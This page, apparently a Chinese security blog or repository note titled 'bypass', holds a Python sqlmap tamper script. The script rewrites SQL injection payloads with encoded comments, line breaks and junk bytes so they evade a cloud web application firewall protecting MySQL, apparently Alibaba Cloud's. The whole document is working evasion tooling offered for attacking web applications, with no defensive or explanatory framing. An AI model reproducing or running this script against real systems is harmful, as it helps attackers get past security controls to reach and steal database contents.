 ### bypass

- 来自 : https://mp.weixin.qq.com/s/vjbQT41O4MSPoZY9fej_cw

```py
#!/usr/bin/env python2
#user by: XG

import re
from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    retVal = payload
    if payload:
        # ALiYun mysql
        # index.php?id=336699dfg

        retVal = re.sub(r" ", "%20", retVal)
        retVal = re.sub(r"\'\)%20AND%20", "%27%29%2f%2a%20%30%30%7d%7d%29%5d%5b%2a%2f%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aAND%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0a", retVal)
        retVal = re.sub(r"\)%20AND%20", "%29%2f%2a%30%30%7d%7d%29%5d%5b%2a%2f%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aAND%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0a", retVal)
        retVal = re.sub(r"\'%20AND%20", "%27%20%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aAND%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0a", retVal)
        retVal = re.sub(r"%20AND%20", "%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aAND%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0a", retVal)
        retVal = re.sub(r"%20OR%20NOT%20", "%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aOR%20NOT%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0a", retVal)
        retVal = re.sub(r"%20OR%20", "%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aOR%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0a", retVal)
        retVal = re.sub(r"=", "%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aLIKE%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0a", retVal)
        retVal = re.sub(r"\'%20UNION", "%27%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aUNION", retVal)
        retVal = re.sub(r"UNION%20SELECT%20", "UNION%0d%0a%20%2d%2d%20%81/*%99%20%0d%0a%0d%0a%0d%0aSELECT%0d%0a%20%2d%2d%20%81/*%99%0d%0a%0d%0a", retVal)
        retVal = re.sub(r"UNION%20ALL%20SELECT%20", "UNION%0d%0a%20%2d%2d%20%81/*%99%20%0d%0a%0d%0a%0d%0aALL%20SELECT%0d%0a%20%2d%2d%20%81/*%99%0d%0a%0d%0a", retVal)
        retVal = re.sub(r"%20FROM", "%0d%0a%20%2d%2d%20%87%0d%0aFROM", retVal)
        retVal = re.sub(r"FROM%20INFORMATION_SCHEMA\.", "FROM%0d%0a%20%2d%2d%20%5d%5b%81%20%0d%0aINFORMATION_SCHEMA%0d%0a.", retVal)
        retVal = re.sub(r"CASE%20", "CASE%0D%0A%0d%2d%2d%20%99%29%20%0d%0a", retVal)
        retVal = re.sub(r"THEN%20", "THEN%0D%0A%0d%2d%2d%20%99%29%20%0d%0a", retVal)
        retVal = re.sub(r"ELT\(", "ELT%20%2d%2d%20%29%29%29%29%29%29%0d%0a%28", retVal)
        #retVal = re.sub(r"\(SELECT%20", "%28%20%2d%2d%0d%99%20%0d%0aSELECT%0D%0A%0d%2d%2d%20%99%29%20%0d%0a", retVal)
        #retVal = re.sub(r"\(SELECT%20", "%28%20%2d%2d%0d%99%5b%5d%20%0d%0aSELECT%0D%0A%0d%2d%2d%20%99%29%20%0d%0a", retVal)
        retVal = re.sub(r"\(SELECT%20", "%28%20%20%23%20%2f%2a%99%29%5d%5b%7b%7d%23%5b%5d%0aSELECT%20", retVal)
        retVal = re.sub(r"SELECT%20\(", "SELECT%20%2d%2d%20%29%29%29%5b%5d%7b%7d%0d%0a%28", retVal)
        retVal = re.sub(r"CONCAT\(", "CONCAT%20%23%20%89%0d%0a%28", retVal)
        retVal = re.sub(r"CHR\(", "CHR%20%2d%2d%20%29%29%29%29%5b%5d%7b%7d%0d%0a%28", retVal)
        retVal = re.sub(r"CHAR\(", "CHAR%20%2d%2d%20%29%29%29%29%5b%5d%7b%7d%0d%0a%28", retVal)
        retVal = re.sub(r"EXTRACTVALUE\(", "EXTRACTVALUE%20%23%20%89%0d%0a%28", retVal)

        #retVal = re.sub(r"%20INFORMATION_SCHEMA", "%20/*like%22%0d%0a%20%2d%2d%20%0d%22*/%20%0d%0a%20INFORMATION_SCHEMA%0d%0a", retVal)

```